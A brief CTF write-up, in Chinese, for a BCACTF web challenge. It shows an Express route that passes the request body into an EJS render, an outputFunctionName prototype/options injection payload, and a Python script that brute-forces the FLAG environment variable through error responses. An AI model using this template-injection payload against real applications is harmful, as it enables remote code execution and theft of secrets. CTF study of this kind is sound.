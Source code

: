 主要的成因是在

```javascript!
app.post('/', (req, res) => {
    for (const [breed, summary] of Object.entries(breeds)) {
        if (req.body?.breed?.toLowerCase() === breed.toLowerCase()) {
            res.render('search', {
                summary,
                notFound: false,
                ...req.body
            })
            return
        }
    }

    res.render('search', { notFound: true })
}
```

payload(from ball45):

```
breed=Pekin&summary='aaaa'&settings[view options][outputFunctionName]=x;<js code>;s
```

他的 flag 放在環境變數內:

```javascript!
if (!Deno.env.has('FLAG')) {
    throw new Error('flag is not configured')
}
```

最後我的作法是透過 blind base 中 error 的做法把 flag 慢慢 leak 出來XDD

```python!
import requests

url = "http://challs.bcactf.com:30684/"

data = {
    "breed": "Pekin",
    "summary": "'aaaa'",
    "settings[view options][outputFunctionName]": "x;if(Deno.env.get('FLAG').startsWith('b')){throw new Error()};s",
}

flag = "bcactf{"


response = requests.post(url, data=data)
charset = "_abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ}"

while True:
    for c in charset:
        data["settings[view options][outputFunctionName]"] = (
            f"x;if(Deno.env.get('FLAG').startsWith('{flag+c}')){{throw new Error()}};s"
        )
        response = requests.post(url, data=data)
        if "Internal Server Error" in response.text:
            flag += c
            print(flag)
            break
    else:
        print("GG")


print(response.text)
```
